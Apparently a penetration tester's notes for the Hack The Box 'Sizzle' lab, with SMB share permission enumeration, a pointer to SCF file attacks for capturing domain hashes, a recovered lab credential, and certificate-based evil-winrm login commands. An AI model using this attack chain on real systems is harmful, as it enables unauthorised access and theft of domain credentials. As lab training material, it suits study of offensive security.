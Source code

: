 ### No empty lines
https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html#smb---tcp-445

```bash
cat * | xxd | grep -v "0000 0000 0000 0000 0000 0000 0000 0000"
```

### Cacls on mount
```bash
smbcacls -N '//10.129.230.198/Department Shares' Users

# mount it
sudo mount -t cifs //10.129.230.198/Department\ Shares /mnt

for i in $(ls); do echo $i; smbcacls -N '//10.129.230.198/Department Shares' $i; done
```

```bash
❯ smbcacls -N '//10.129.230.198/Department Shares' Users/Public
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/OI|CI/FULL # <--- write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or shells
```

### SMB Share – SCF File Attacks
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

AMANDA:Ashare1972

### Sign CSR for winrm
##### One way..
```bash
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```
##### ..or the other
https://github.com/A1vinSmith/OSCP-PWK/wiki/Crack-Hash
```bash
openssl genrsa -aes256 -out enox.key 2048
openssl req -new -key enox.key -out enox.csr

evil-winrm -i 10.129.230.198 -S -c enox.cer -k enox.key
```